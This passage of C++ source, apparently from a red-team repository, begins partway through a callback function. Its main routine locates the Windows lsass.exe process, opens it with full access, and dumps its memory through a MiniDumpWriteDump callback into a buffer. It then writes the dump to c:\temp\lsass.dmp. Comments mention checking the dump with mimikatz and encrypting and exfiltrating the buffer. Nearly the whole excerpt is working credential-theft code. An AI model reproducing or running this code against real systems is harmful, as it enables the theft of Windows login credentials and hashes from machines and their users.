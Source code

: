 ```cpp
		case IoFinishCallback:
			callbackOutput->Status = S_OK;
			break;

		default:
			return true;
	}
	return TRUE;
}

int main() {
	DWORD lsassPID = 0;
	DWORD bytesWritten = 0;
	HANDLE lsassHandle = NULL;
	HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	LPCWSTR processName = L"";
	PROCESSENTRY32 processEntry = {};
	processEntry.dwSize = sizeof(PROCESSENTRY32);

	// Get lsass PID
	if (Process32First(snapshot, &processEntry)) {
		while (_wcsicmp(processName, L"lsass.exe") != 0) {
			Process32Next(snapshot, &processEntry);
			processName = processEntry.szExeFile;
			lsassPID = processEntry.th32ProcessID;
		}
		printf("[+] lsass PID=0x%x\n",lsassPID);
	}

	lsassHandle = OpenProcess(PROCESS_ALL_ACCESS, 0, lsassPID);
	
	// Set up minidump callback
	MINIDUMP_CALLBACK_INFORMATION callbackInfo;
	ZeroMemory(&callbackInfo, sizeof(MINIDUMP_CALLBACK_INFORMATION));
	callbackInfo.CallbackRoutine = &minidumpCallback;
	callbackInfo.CallbackParam = NULL;

	// Dump lsass
	BOOL isDumped = MiniDumpWriteDump(lsassHandle, lsassPID, NULL, MiniDumpWithFullMemory, NULL, NULL, &callbackInfo);

	if (isDumped) 
	{
		// At this point, we have the lsass dump in memory at location dumpBuffer - we can do whatever we want with that buffer, i.e encrypt & exfiltrate
		printf("\n[+] lsass dumped to memory 0x%p\n", dumpBuffer);
		HANDLE outFile = CreateFile(L"c:\\temp\\lsass.dmp", GENERIC_ALL, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
	
		// For testing purposes, let's write lsass dump to disk from our own dumpBuffer and check if mimikatz can work it
		if (WriteFile(outFile, dumpBuffer, bytesRead, &bytesWritten, NULL))
		{
			printf("\n[+] lsass dumped from 0x%p to c:\\temp\\lsass.dmp\n", dumpBuffer, bytesWritten);
		}
	}
	
	return 0;
}
```
